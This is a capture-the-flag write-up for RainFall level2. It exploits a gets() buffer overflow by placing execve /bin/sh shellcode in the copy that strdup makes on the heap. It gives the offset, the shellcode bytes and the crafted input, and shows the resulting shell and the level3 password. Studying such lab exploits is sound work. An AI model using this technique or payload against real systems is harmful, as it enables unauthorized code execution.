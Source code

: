 As for the previous level, we have a call to gets which is vulnerable to buffer overflow attacks. But this time, a check is made to make sure that the return of the function does not point to an address in the stack (using the 0xb0000000 mask). However, there is a call to strdup which records the user's input on the heap and which we can exploit.

The address space layout randomization (ASLR) is off, meaning the memory addresses associated with running processes are predictable:
```
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
So, we get the address of our input registered on the heap (0x0804a008) using ltrace:
```
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7d4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                    = 0
gets(0xbffff6dc, 0, 0, 0xb7e5ec73, 0x80482b5)                         = 0xbffff6dc
puts("ok")                                                            = 3
strdup("ok")                                                          = 0x0804a008
+++ exited (status 8) +++
```
<br />
Now Using gdb, we find that there are 80 bytes needed to reach the return address:
```
python -c "print 'A' * 80 + 'ABCD'" > /tmp/exploit
```

```
(gdb) r < /tmp/exploit
Starting program: /home/user/level2/level2 < /tmp/exploit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDAAAAAAAAAAAAABCD

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```

Now we just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [this one](https://shell-storm.org/shellcode/files/shellcode-841.php) corresponds to what we want to do. It is 21 bytes long so we need to complete our input with 59 '\x90' bytes (the 'No Operation' instruction), followed by the address of our shellcode on the heap, in the little endian convention:
```
level2@RainFall:~$ python -c "print '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x90' * 59 + '\x08\xa0\x04\x08'" > /tmp/exploit
```
<br />
Finally, we just have to launch the program by passing our crafted input:
```
level2@RainFall:~$ cat /tmp/exploit - | ./level2 
1���
    Qh//shh/bin��̀������������������������������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```